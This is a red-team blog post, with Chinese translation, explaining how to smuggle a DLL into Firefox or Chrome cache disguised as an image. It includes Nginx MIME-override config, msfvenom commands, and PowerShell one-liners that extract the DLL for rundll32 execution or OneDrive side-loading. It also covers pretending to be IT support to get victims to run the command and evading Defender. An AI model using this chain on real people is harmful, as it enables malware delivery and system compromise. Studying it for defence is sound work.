

# Browsers' cache smuggling // WhiteFlag --- 浏览器的缓存走私 // WhiteFlag

# Browsers' cache smuggling  
浏览器的缓存走私

calendar Jul 8, 2023  
7月 8， 2023

clock 10 min read

tag [Redteam](https://blog.whiteflag.io/tags/redteam/) [Browser](https://blog.whiteflag.io/tags/browser/) [Cache](https://blog.whiteflag.io/tags/cache/) [Smuggling](https://blog.whiteflag.io/tags/smuggling/)  
Redteam 浏览器缓存走私

On red team engagements, I often use social engineering to get one of my client’s employees to run my malicious code on their machines, allowing me to get access to their system. A typical approach I’ve used is to call them up, tell them I’m from IT support, and then get them to go to an official looking web page that contains some PowerShell code they need to run, to fix some made-up problem.  
在红队参与中，我经常使用社会工程来让我的客户的一名员工在他们的机器上运行我的恶意代码，从而允许我访问他们的系统。我使用的一种典型方法是打电话给他们，告诉他们我来自 IT 支持，然后让他们转到一个看起来很正式的网页，其中包含他们需要运行的一些 PowerShell 代码，以解决一些虚构的问题。

However, this approach is well known to security vendors, and these days almost all anti-malware and EDR products will block or at least alert on any suspicious looking PowerShell code, especially code that downloads a payload and then executes it. I wanted to find another, stealthier way to deliver a payload to targeted users.  
但是，安全供应商都知道这种方法，如今，几乎所有反恶意软件和 EDR 产品都会阻止或至少对任何可疑的 PowerShell 代码发出警报，尤其是下载有效负载然后执行它的代码。我想找到另一种更隐蔽的方式来向目标用户提供有效载荷。

So, the first question I asked myself is what mechanisms are used by an operating system on a daily basis that I could manipulate in order to deliver malware? And then it popped into my head: browser cache!  
因此，我问自己的第一个问题是，操作系统每天使用哪些机制，我可以操纵这些机制来传递恶意软件？然后它突然出现在我的脑海中：浏览器缓存！

In this blog post I’ll present a technique in which an attacker social engineers a target employee to visit a web site. The web site will then silently place a DLL payload in the browser’s cache, disguised as an image. On the same web site, the user is socially engineered to run a benign looking PowerShell one liner that moves the DLL payload to a folder, where it will be automatically executed. I’ll also show some other interesting things I found regarding Defender while doing this research.  
在这篇博文中，我将介绍一种技术，攻击者对目标员工进行社交工程以访问网站。然后，网站将静默地将 DLL 有效负载伪装成图像放置在浏览器的缓存中。在同一网站上，用户被社会工程设计为运行一个外观良性的 PowerShell 单行，该行将 DLL 有效负载移动到一个文件夹，该文件夹将自动执行。我还将展示我在进行这项研究时发现的有关 Defender 的其他一些有趣的事情。

# I/ What is browser cache?  
I/ 什么是浏览器缓存？

When you navigate on the Internet, your browser loads a ton of files such as images, videos, CSS, JavaScript and so on. Loading the same page twice means that the browser will download the same files twice. That’s useless and it takes a lot of CPU resources as well as network bandwidth.  
当您在 Internet 上导航时，您的浏览器会加载大量文件，例如图像、视频、CSS、JavaScript 等。加载同一页面两次意味着浏览器将下载相同的文件两次。这是无用的，它需要大量的 CPU 资源和网络带宽。

Modern browsers implement a mechanism that allows them to store these files locally so that they don’t need to download them every time. This mechanism is called the browser cache.  
现代浏览器实现了一种机制，允许它们在本地存储这些文件，这样他们就不需要每次都下载它们。这种机制称为浏览器缓存。

If we look at how Firefox on Windows works, we see that there is a Firefox directory in AppData/Local, that stores what looks like cached files:  
如果我们看一下 Windows 上的 Firefox 是如何工作的，我们会看到 AppData/Local 中有一个 Firefox 目录，它存储了看起来像缓存的文件：


And there are quite a few files, around 300MB:  
并且有相当多的文件，大约 300MB：


Now let’s purge this directory and navigate to the [https://orangecyberdefense.com](https://orangecyberdefense.com/) website. You will see that new files are added while we navigate:  
现在，让我们清除此目录并导航到 https://orangecyberdefense.com 网站。您将看到在我们导航时添加了新文件：


So, it seems we have found a mechanism that automatically downloads files!  
所以，我们似乎找到了一种自动下载文件的机制！

However, browsers will not cache just any file provided by a server. It will cache static resources – files whose content is not going to change often. As such, our browsers will mostly cache images, videos and sometimes JS/CSS. It would be great if we could somehow trick a browser into caching files that contain a binary payload, such as a DLL or EXE file. How do we do that?  
但是，浏览器不会只缓存服务器提供的任何文件。它将缓存静态资源——其内容不会经常更改的文件。因此，我们的浏览器主要会缓存图像、视频，有时还会缓存 JS/CSS。如果我们能以某种方式诱骗浏览器缓存包含二进制有效负载的文件，例如 DLL 或 EXE 文件，那就太好了。我们是怎么做到的？

# II/ Manipulating browsers' cache mechanisms  
II/ 操纵浏览器的缓存机制

To detect which files to cache, browsers will mainly rely on the Content-Type header that is sent by the web server. For example, in the screenshot below we can see that the file “avatar.jpg” was sent by the server and its content type is “image/jpeg”:  
为了检测要缓存的文件，浏览器将主要依赖于 Web 服务器发送的 Content-Type 标头。例如，在下面的屏幕截图中，我们可以看到文件“avatar.jpg”是由服务器发送的，其内容类型为“image/jpeg”：


On Linux, web servers typically use the /etc/mime.types file, to know which content type it should return for a specific file. The content of /etc/mime.types typically looks like this:  
在 Linux 上，Web 服务器通常使用 /etc/mime.types 文件来了解它应该为特定文件返回哪种内容类型。/etc/mime.types 的内容通常如下所示：


This file contains the content-type values linked to the extension of the files. As such, when the webserver (Nginx in this case) sees that the file avatar.jpg is requested, it will check in the mime.types file to determine what is the content-type of the .jpg extension, and see that it is image/jpeg:  
此文件包含链接到文件扩展名的内容类型值。因此，当 Web 服务器（在本例中为 Nginx）看到请求文件 avatar.jpg 时，它将签入 mime.types 文件以确定 .jpg 扩展名的内容类型是什么，并看到它是 image/jpeg：

As an attacker, we can override these values. Remember, our goal is to force the download of either a DLL or an EXE file. To do so, we’ll simply have to change the content type related to the DLL and EXE files from application/x-msdos-program to image/jpeg. This is simply done with the following line in your Nginx configuration:  
作为攻击者，我们可以覆盖这些值。请记住，我们的目标是强制下载 DLL 或 EXE 文件。为此，我们只需将与 DLL 和 EXE 文件相关的内容类型从 application/x-msdos-program 更改为 image/jpeg。只需在 Nginx 配置中使用以下行即可完成此操作：

```bash
types { } default_type image/jpeg;
```

This nullifies the in-memory mime type mapping, and then sets the default content type to “image/jpg” for unknown types (i.e. all files, since we nuked the mappings first). Enclosing this in a “location” block which only matches your payload(s) will achieve the desired effect without turning everything into an “image”. See part III below for the complete config in context.  
这将使内存中的 MIME 类型映射无效，然后将未知类型（即所有文件，因为我们首先对映射进行了核击）的默认内容类型设置为“image/jpg”。将其包含在仅与您的有效载荷匹配的“位置”块中，将达到预期的效果，而不会将所有内容变成“图像”。有关上下文中的完整配置，请参阅下面的第三部分。

Next, we will have to generate two things:  
接下来，我们必须生成两件事：

-   A DLL, in this case a simple one that will run calc.exe generated via MSFVenom:  
    DLL，在本例中是一个简单的 DLL，它将运行通过 MSFVenom 生成的 calc.exe：

```bash
msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f dll > calc.dll
```

-   An HTML page in which the DLL is embedded in a img tag:  
    DLL 嵌入在 img 标记中的 HTML 页面：

```html
<html>
        <body>
                <h1>Browser cache smuggling</h1>
                </img>
        </body>
</html>
```

We then empty Firefox’s cache, reload the HTML page and see that the file was downloaded:  
然后，我们清空Firefox的缓存，重新加载HTML页面，并看到文件已下载：


Considering the size of the cached files we can conclude that the file starting with 75E… Is our calc DLL. To be sure, we can load the following page on Firefox:  
考虑到缓存文件的大小，我们可以得出结论，以 75E 开头的文件...是我们的 calc DLL。可以肯定的是，我们可以在Firefox上加载以下页面：

```plain
about:cache?storage=disk
```

That is listing all the cached files on Firefox. And if we do a string lookup, we’ll see that the calc.dll was cached:  
即列出Firefox上的所有缓存文件。如果我们进行字符串查找，我们将看到 calc.dll 被缓存：


Which means that the DLL was effectively delivered to the system. And what if I told you that this delivery method is not flagged by anti-virus? Yup! Defender is running on the Windows machine that is my target and it’s not yelling anything. Know why? Because when the DLL was downloaded and stored in the cache, it was renamed to a random filename without an extension:  
这意味着 DLL 已有效地传递到系统。如果我告诉您这种交付方式没有被防病毒标记怎么办？是的！Defender 在我的目标 Windows 机器上运行，它没有大喊大叫。知道为什么吗？因为当DLL被下载并存储在缓存中时，它被重命名为一个没有扩展名的随机文件名：


As such, Defender is not scanning the file and our DLL can stay there for as long as we need!  
因此，Defender 不会扫描文件，只要我们需要，我们的 DLL 就可以保留在那里！

# III/ What about execution ?  
III/ 执行力如何？

A typical way to get this working is to social engineer a user, telling them there is something wrong with their system, and that they need to run a command to fix it. We tell them that the command is on an official looking web page. When the page loads, the DLL gets cached onto their system. The user gets the command from the web page, and runs it, which causes the already cached DLL to be executed. With this approach, we ensure that the DLL is still cached when the user runs the command.  
实现此工作的典型方法是对用户进行社会工程，告诉他们他们的系统有问题，并且他们需要运行命令来修复它。我们告诉他们，该命令位于一个官方网页上。当页面加载时，DLL 将缓存到其系统上。用户从网页获取命令并运行它，这会导致执行已缓存的 DLL。使用此方法，我们确保在用户运行命令时仍会缓存 DLL。

The key differentiator between this approach, and social engineering a user to run a C2 stager command, is that the command we get the user to run doesn’t download a malicious payload, as its already on the system, cached by the browser. The idea is to try and make the command as benign looking as possible, to avoid suspicion or detection, and let Firefox do the dirty work by caching the malware DLL file.  
这种方法与社会工程用户运行 C2 暂存器命令之间的主要区别在于，我们让用户运行的命令不会下载恶意有效负载，因为它已经在系统上，由浏览器缓存。这个想法是尝试使命令看起来尽可能良性，以避免怀疑或检测，并让Firefox通过缓存恶意软件DLL文件来完成肮脏的工作。

To make this work, we need a way to find our DLL between all the other files that are cached by the browser.  
为此，我们需要一种方法在浏览器缓存的所有其他文件之间找到我们的 DLL。

If we take a closer look at the size of the cached DLL and the size of the DLL itself, we will see that the cached one is slightly bigger:  
如果我们仔细查看缓存的 DLL 的大小和 DLL 本身的大小，我们会发现缓存的 DLL 略大：


The reason is that the cached file is not just the DLL, it’s a file that contains both the DLL file’s content as well as metadata. Amongst the metadata, there is the HTTP response of the Nginx server, containing a few HTTP headers:  
原因是缓存的文件不仅仅是 DLL，它还是一个包含 DLL 文件内容和元数据的文件。在元数据中，有 Nginx 服务器的 HTTP 响应，其中包含一些 HTTP 标头：


As such, all we need to do is to create a flag in the HTTP response of the server that will allow us to identify our DLL. We can accomplish this by modifying the Nginx configuration file in the following way:  
因此，我们需要做的就是在服务器的 HTTP 响应中创建一个标志，该标志将允许我们识别我们的 DLL。我们可以通过以下方式修改 Nginx 配置文件来实现这一点：

```bash
server {
	listen 80 default_server;
	listen [::]:80 default_server;
	root /var/www/html;
	index index.html index.htm index.nginx-debian.html;
	server_name _;

	# Adding the HTTP header TAG used to find the real DLL
	location /calc.dll {
		# Override the mime type
		types { } default_type image/jpeg;
		add_header Tag DLLHERE;
	}
}
```

If we reload the HTML page, we see that when the server is requested to provide the calc.dll file, its response contains an additional HTTP header that marks our DLL:  
如果我们重新加载 HTML 页面，我们会看到当请求服务器提供 calc.dll 文件时，其响应包含一个标记我们的 DLL 的附加 HTTP 标头：



Using PowerShell or batch we can search for this specific string to find our DLL in the local cache directory:  
使用 PowerShell 或 batch，我们可以搜索此特定字符串以在本地缓存目录中查找我们的 DLL：


At this point we know where our DLL is, so let’s try executing it.  
此时我们知道我们的 DLL 在哪里，所以让我们尝试执行它。

While doing this research I realized that as soon as I renamed the cache file to “calc.dll”, the anti-virus flagged it as being malicious (msfvenom you know…). I tried a lot of things until I realized that rundll32 can execute a DLL that hasn’t got the .dll extension:  
在进行这项研究时，我意识到一旦我将缓存文件重命名为“calc.dll”，防病毒软件就会将其标记为恶意（你知道的msfvenom...我尝试了很多方法，直到我意识到rundll32可以执行没有.dll扩展名的DLL：


All you need to do is to append a dot to the cached filename and rundll32 will execute it. Even stranger, we saw before that the cached file is not just the DLL but also metadata, yet rundll32 doesn’t care about that and will execute the DLL.  
您需要做的就是在缓存的文件名后面附加一个点，rundll32 将执行它。更奇怪的是，我们之前看到缓存的文件不仅是 DLL，还有元数据，但 rundll32 并不关心这一点，而是会执行 DLL。

Getting a user to execute rundll32 may set off some alarms, even if the DLL is already on the user’s file system. An alternative approach may be simply to move the existing DLL into place, so that it gets executed when the user opens another application. This results in a far more benign command, that doesn’t download or execute anything itself, it only moves an existing file. However, this approach does require that your malicious DLL doesn’t get statically detected by AV.  
让用户执行 rundll32 可能会引发一些警报，即使 DLL 已在用户的文件系统上也是如此。另一种方法可能是简单地将现有 DLL 移动到适当的位置，以便在用户打开另一个应用程序时执行它。这导致了一个更温和的命令，它本身不会下载或执行任何内容，它只会移动现有文件。但是，此方法确实要求 AV 不会静态检测到恶意 DLL。

The following PowerShell one liner will look for the DLL in the cache directory and move it to an appropriate place, such as the OneDrive folder in order to launch a DLL side loading attack:  
以下 PowerShell 单行将在缓存目录中查找 DLL，并将其移动到适当的位置，例如 OneDrive 文件夹，以便发起 DLL 端加载攻击：

```powershell
foreach($f in @("$env:LOCALAPPDATA\Mozilla\Firefox\Profiles\*.default-release\cache2\entries\")){gci $f -r|%{if(Select-String -Pattern "DLLHERE" -Path $_.FullName){cp $_.FullName $env:LOCALAPPDATA\Microsoft\OneDrive\CRYPTBASE.dll}}}
```

Next time OneDrive is launched, your malware will be too!  
下次启动 OneDrive 时，您的恶意软件也会启动！

# IV/ What about Google Chrome  
IV/ 谷歌浏览器呢

The way Google Chrome stores files in its cache is a little more complicated to exploit. Indeed, files are not stored individually, they are stored in multiple databases located in the %LOCALAPPDATA%\\Google\\Chrome\\User Data\\Default\\Cache\\Cache\_Data folder:  
Google Chrome 在其缓存中存储文件的方式有点复杂。事实上，文件不是单独存储的，它们存储在位于 %LOCALAPPDATA%\\Google\\Chrome\\User Data\\Default\\Cache\\Cache\_Data 文件夹中的多个数据库中：


As such, retrieving cached files means manipulating the database and this is not easy, especially with PowerShell. At this point I thought it was impossible to weaponize this technique for Chrome until @shifttymike sent me this message:  
因此，检索缓存文件意味着操作数据库，这并不容易，尤其是在使用 PowerShell 时。在这一点上，我认为不可能将这种技术武器化到 Chrome 中，直到@shifttymike给我发了这条消息：


And that is brilliant! Here is how I put up things together. First we create the DLL via msfvenom:  
这太棒了！这是我如何把东西放在一起的。首先，我们通过 msfvenom 创建 DLL：

```bash
msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f dll > calc.dll
```

Then we preprend a string that is going to tell us where the DLL starts:  
然后我们准备一个字符串，它将告诉我们 DLL 从哪里开始：

```bash
sed -i "1s/^/INDLL/" calc.dll
```

And append a string to tell us where it ends:  
并附加一个字符串来告诉我们它的结束位置：

```bash
echo -n "OUTDLL" >> calc.dll
```

At this point we know that our DLL is located between the INDLL and OUTDLL tags in one of Chrome’s cache database , all we need to do is to run some PowerShell code that will be able to analyze the Chrome’s databases and extract the DLL from them. This can be done via the following PowerShell oneliner:  
此时我们知道我们的DLL位于Chrome缓存数据库之一的INDLL和OUTDLL标签之间，我们需要做的就是运行一些PowerShell代码，这些代码将能够分析Chrome的数据库并从中提取DLL。这可以通过以下 PowerShell oneliner 完成：

```PowerShell
$d="$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cache\Cache_Data\";gci $d|%{if([regex]::Matches([System.Text.Encoding]::Default.GetString([System.IO.File]::ReadAllBytes($_.FullName)),"(?<=INDLL)(.*?)(?=OUTDLL)",[System.Text.RegularExpressions.RegexOptions]::Singleline).Count-ne0){[System.IO.File]::WriteAllBytes("$d\hello.dll",[System.Text.Encoding]::Default.GetBytes($matches[0].Value))}}
```

And effectively, our DLL is found and extracted:  
实际上，我们的 DLL 被找到并提取：


Then we can use rundll32 to execute it:  
然后我们可以使用 rundll32 来执行它：


Or move the DLL to a specific folder as seen previously.  
或者将 DLL 移动到特定文件夹，如前所述。

# IV/ Conclusion 四、结语

As far as I know, I haven’t seen this malware delivery method described yet. To me it’s a pretty cool trick since it will allow a red team operator to force the download of malware just by sending a URL to its target. There is no need to trick the target into downloading a malicious file (which could be suspicious), the only thing you have got to take care of is to trick the user into running a benign looking Power Shell one liner. Way stealthier in my opinion ;)!  
据我所知，我还没有看到这种恶意软件传递方法的描述。对我来说，这是一个非常酷的技巧，因为它将允许红队运营商通过向其目标发送 URL 来强制下载恶意软件。没有必要诱骗目标下载恶意文件（这可能是可疑的），你唯一需要注意的就是诱使用户运行一个看起来温和的Power Shell一个衬里。在我看来，;)更隐蔽！

Last red teamer tip: If you ever find a computer or server on which a browser is installed, you can take a look at the cache folder and read the cached files. Thanks to the metadata you will be able to gather DNS hostnames that will allow you to discover potential targets on the internal network (hey there vSphere :D)!  
最后的红队提示：如果您发现安装了浏览器的计算机或服务器，您可以查看缓存文件夹并读取缓存文件。借助元数据，您将能够收集 DNS 主机名，从而发现内部网络上的潜在目标（嘿，vSphere :D）！

Happy hacking! 祝您黑客愉快！

This blogpost was first released on [https://sensepost.com/blog/2023/browsers-cache-smuggling/](https://sensepost.com/blog/2023/browsers-cache-smuggling/)  
这篇博文最初发布于 https://sensepost.com/blog/2023/browsers-cache-smuggling/
